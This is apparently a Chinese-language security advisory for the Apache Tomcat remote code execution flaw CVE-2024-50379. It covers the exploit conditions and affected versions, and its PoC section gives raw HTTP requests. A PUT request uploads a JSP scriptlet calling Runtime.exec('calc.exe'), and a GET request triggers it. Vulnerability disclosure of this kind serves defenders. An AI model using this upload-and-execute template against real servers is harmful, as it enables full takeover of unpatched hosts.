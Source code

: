 #  【高危 含POC】Tomcat 远程代码执行漏洞(CVE-2024-50379)   
原创 安全透视镜  网络安全透视镜   2024-12-18 06:36  
  
**一、漏洞描述**  
  
Apache Tomcat 远程代码执行漏洞，该漏洞允许攻击者在特定条件下绕过Tomcat的大小写检查，上传恶意文件并执行远程代码，可能导致服务器被完全控制，数据泄露或服务中断。  
  
****  
**二、利用条件**  
  
在Windows系统下启用PUT请求方式，并将readonly初始化参数设置为非默认值 false。在负载下并发读取和上传同一文件可以绕过 Tomcat 的大小写检查，导致上传的文件将其视为 JSP，从而导致远程代码执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS62kvbcyAm2h4dqlaUvf4duDsMm8Vqr4KMExR6XVhMg8Ie47Wohbd0vwPgtl49puzN87ia26CiaCGhg/640?wx_fmt=png&from=appmsg "")  
  
  
**三、影响版本**  
  
11.0.0-M1 <= Apache Tomcat < 11.0.2  
  
10.1.0-M1 <= Apache Tomcat < 10.1.34  
  
9.0.0.M1 <= Apache Tomcat < 9.0.98  
  
  
**四、漏洞POC**  
  
并发读取和上传同一文件  
```
PUT /d.Jsp·HTTP/1.1
Content-Type:application/json
Host:

aa<%·Runtime.getRuntime().exec("calc.exe");%>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS62kvbcyAm2h4dqlaUvf4duCAeibWTwUHWIHom3RibEjrWbyatfq5WOysGdSOLyBANTxgVWRibdIWLfA/640?wx_fmt=png&from=appmsg "")  
```
GET /d.jsp HTTP/1.1
Content-Type:application/json
Host:
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS62kvbcyAm2h4dqlaUvf4duNxCEgYucz3JJbPMLmkEIGzqbeyzPBUicRIicrKtMvLIdn90ElnCSkPCQ/640?wx_fmt=png&from=appmsg "")  
  
  
参考：  
  
https://mp.weixin.qq.com/s/mh23G7oNJ-XsJRUbHWnmlg  
  
https://mp.weixin.qq.com/s?__biz=MzIzNDU5Mzk2OQ==&mid=2247486318&idx=1&sn=93c203e68a7de391e374b0a3cfb18297  
  
  
